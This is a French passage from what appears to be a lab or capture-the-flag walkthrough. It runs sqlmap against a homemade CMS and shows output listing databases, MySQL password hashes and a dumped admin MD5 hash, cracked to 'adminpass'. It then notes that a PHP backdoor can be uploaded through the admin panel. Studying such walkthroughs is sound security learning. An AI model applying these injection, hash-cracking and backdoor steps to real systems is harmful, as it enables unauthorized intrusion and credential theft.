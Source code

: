 On "fire up" un sqlmap comme d'habitude. Ce dernier nous permet de récupérer les informations suivantes concernant les pages faites-maison :  

```plain
current user:    'cms_user@%'
current database:    'cms'

[*] cms_user [1]:
    password hash: 2e0cfd856355b099
[*] root [2]:
    password hash: 6cbbdf9b35eb7db1
    password hash: NULL
```

L'option --dbs nous liste les bases de données existantes :  

```plain
[*] cms
[*] information_schema
[*] mysql
[*] roundcube
[*] test
```

Plus d'informations sur la base CMS avec *-D cms --tables* :  

```plain
Database: cms
[3 tables]
+-------+
| user  |
| event |
| log   |
+-------+
```

Et enfin le dump de la table user (*-D cms -T user --dump*) :  

```plain
Database: cms
Table: user
[1 entry]
+---------+---------------+----------------------------------+
| user_id | user_username | user_password                    |
+---------+---------------+----------------------------------+
| 1       | admin         | 25e4ee4e9229397b6b17776bfceaf8e7 |
+---------+---------------+----------------------------------+
```

Le hash MD5 ne fait pas long feu sur [MD5RDB](http://md5.noisette.ch/) (adminpass).  

L'exploration de la base *Roundcube* est en revanche moins intéressante. On s'en sort avec un utilisateur *john@localhost* dont l'ID est 1.  

Les mots de passe ne sont pas stockés en base, roundcube devant dialoguer directement avec l'IMAP, POP3 voir autre chose.  

Une fois connecté sur le CMS maison avec les identifiants *admin / adminpass*, on trouve vite fait bien fait un moyen d'uploader une backdoor PHP (dans *"New event"*).  
